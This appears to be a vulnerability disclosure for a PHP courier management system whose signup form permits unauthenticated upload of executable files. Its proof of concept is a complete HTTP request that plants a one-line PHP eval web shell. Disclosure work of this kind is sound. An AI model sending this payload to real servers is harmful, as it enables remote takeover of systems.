 # courier management system - Unrestricted File Upload to RCE (Sign Up)

### Vendor Homepage:

> [https://www.sourcecodester.com](https://www.sourcecodester.com/)

### Software Link:

> [courier management system](https://www.sourcecodester.com/php/16848/best-courier-management-system-project-php.html)

### Version:

> v 1.0

### Unauthenticated Unrestricted File Upload to RCE:

> The "Unauthenticated Unrestricted File Upload to Remote Code Execution (RCE)" vulnerability is a critical security flaw where attackers can upload malicious files to a web server without needing to authenticate. This vulnerability arises from the lack of proper restrictions on the types and contents of the files that can be uploaded. Once uploaded, these files can be executed on the server, allowing attackers to run arbitrary code and potentially gain full control over the server. This vulnerability poses a severe risk, as it can lead to system compromise, data breaches, and further network exploitation.

### Affected Components:

> admin_class.php

### Description:

> The presence of this vulnerability enables an unauthenticated attacker to upload .php files to the web server and execute code under the privileges of the user running the application.

## Proof of Concept:

### Manual Exploitation

Construct a signup request and add file content

```
POST /ajax.php?action=signup HTTP/1.1
Host: localhost
Content-Length: 711
sec-ch-ua: "Chromium";v="127", "Not)A;Brand";v="99"
Accept-Language: zh-CN
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryLLUS1AtgLEv3A7En
Accept: */*
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/index.php?page=home
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=e88fl1m4o9qu9uf3lvbc6rmfu5
Connection: keep-alive

------WebKitFormBoundaryLLUS1AtgLEv3A7En
Content-Disposition: form-data; name="id"

8
------WebKitFormBoundaryLLUS1AtgLEv3A7En
Content-Disposition: form-data; name="firstname"

Mayuri K1
------WebKitFormBoundaryLLUS1AtgLEv3A7En
Content-Disposition: form-data; name="lastname"

K1
------WebKitFormBoundaryLLUS1AtgLEv3A7En
Content-Disposition: form-data; name="email"

mayuri.infospace1@gmail.com
------WebKitFormBoundaryLLUS1AtgLEv3A7En
Content-Disposition: form-data; name="password"

123456
------WebKitFormBoundaryLLUS1AtgLEv3A7En--
Content-Disposition:form-data;name= img; filename="1.php"
Content-Type:image/png

<?php @eval($_POST['cmd']); ?>
------WebKitFormBoundaryLLUS1AtgLEv3A7En--

```

![courier2.png](https://github.com/baineoli/CVE/blob/main/2024/images/courier2.png?raw=true)

![courier3.png](https://github.com/baineoli/CVE/blob/main/2024/images/courier3.png?raw=true)

## Recommendations

To mitigate this vulnerability, it's essential to implement strong authentication, validate and sanitize all file uploads, restrict file types, and ensure that uploaded files are not executable on the server.



快递管理系统在注册时没有对头像文件进行检查，导致存在未经身份验证无限制文件上传至 RCE的可能，建议使用时实施强身份验证，验证和清理所有文件上传，限制文件类型，并确保上传的文件不可在服务器上执行。